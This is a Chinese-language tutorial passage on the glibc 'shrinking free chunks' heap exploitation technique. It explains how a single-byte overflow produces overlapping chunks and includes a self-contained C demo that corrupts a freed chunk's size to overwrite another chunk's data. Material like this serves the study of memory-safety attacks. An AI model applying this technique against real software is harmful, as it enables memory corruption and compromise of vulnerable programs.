

<br>

“[Glibc Adventures: The Forgotten Chunk](https://www.accenture.com/jp-ja)”中描述了Shrinking Free Chunks攻击，其因利用了单字节堆溢出（通常由于 '[off by one](https://en.wikipedia.org/wiki/Off-by-one_error)' 而被发现。这种攻击的目标是让 'malloc' 返回一个chunk，这个chunk与目前正在使用的已分配的chunk重叠。首先分配3个chunk（`a`，`b`，`c`），这三个chunk在内存空间中是连续的，然后释放中间块`b`。此时如果第一个chunk溢出，会覆盖中间块的空间，攻击者将最低有效字节设为 0，这会“缩小”chunk的大小。接下来，从中间空闲块中分配两个小chunk（`b1` 和 `b2`），此时第三个chunk的 `prev_size`不会更新，因为 `b`+ `b->size` 不再指向 `c`，而是指向 `c` 之前的内存区域。然后，`b1` 和 `c` 一起被释放，`c` 仍然假定 `b` 是空闲的并与 `b` 合并（因为 `prev_size` 没有得到更新，因此 `c` - `c->prev_size` 仍然指向 `b`）。这导致一个大的空闲块从 `b` 开始并与 `b2` 重叠。此时让一个新的 malloc 返回这个大chunk，从而完成攻击。下图[[Image Source](https://www.contextis.com/documents/120/Glibc_Adventures-The_Forgotten_Chunks.pdf)]总结了这些步骤：


<div align=center></div>

<br>

下列代码展示了一个这种攻击的案例。(完整代码见[此处](https://github.com/DhavalKapil/heap-exploitation/blob/d778318b6a14edad18b20421f5a06fa1a6e6920e/assets/files/shrinking_free_chunks.c))

```C
struct chunk_structure {
  size_t prev_size;
  size_t size;
  struct chunk_structure *fd;
  struct chunk_structure *bk;
  char buf[19];               // padding
};

void *a, *b, *c, *b1, *b2, *big;
struct chunk_structure *b_chunk, *c_chunk;

// Grab three consecutive chunks in memory
a = malloc(0x100);                            // at 0xfee010
b = malloc(0x200);                            // at 0xfee120
c = malloc(0x100);                            // at 0xfee330

b_chunk = (struct chunk_structure *)(b - 2*sizeof(size_t));
c_chunk = (struct chunk_structure *)(c - 2*sizeof(size_t));

// free b, now there is a large gap between 'a' and 'c' in memory
// b will end up in unsorted bin
free(b);

// Attacker overflows 'a' and overwrites least significant byte of b's size
// with 0x00. This will decrease b's size.
*(char *)&b_chunk->size = 0x00;

// Allocate another chunk
// 'b' will be used to service this chunk.
// c's previous size will not updated. In fact, the update will be done a few
// bytes before c's previous size as b's size has decreased.
// So, b + b->size is behind c.
// c will assume that the previous chunk (c - c->prev_size = b/b1) is free
b1 = malloc(0x80);                           // at 0xfee120

// Allocate another chunk
// This will come directly after b1
b2 = malloc(0x80);                           // at 0xfee1b0
strcpy(b2, "victim's data");

// Free b1
free(b1);

// Free c
// This will now consolidate with b/b1 thereby merging b2 within it
// This is because c's prev_in_use bit is still 0 and its previous size
// points to b/b1
free(c);

// Allocate a big chunk to cover b2's memory as well
big = malloc(0x200);                          // at 0xfee120
memset(big, 0x41, 0x200 - 1);

printf("%s\n", (char *)b2);       // Prints AAAAAAAAAAA... !
```

`big` 现在指向初始 `b` 块并与 `b2` 重叠，此时即使`big`和`b2`的空间没有被释放，这两个块的内容也会被更新。需要注意的是，攻击者不仅可以缩小`b`，还可以增加 `b` 的大小，两者都能导致类似的重叠情况。当 'malloc' 请求另一个增加大小的块时，`b` 将用于处理此请求，此时 `c` 的内存也将成为返回的这个新块的一部分。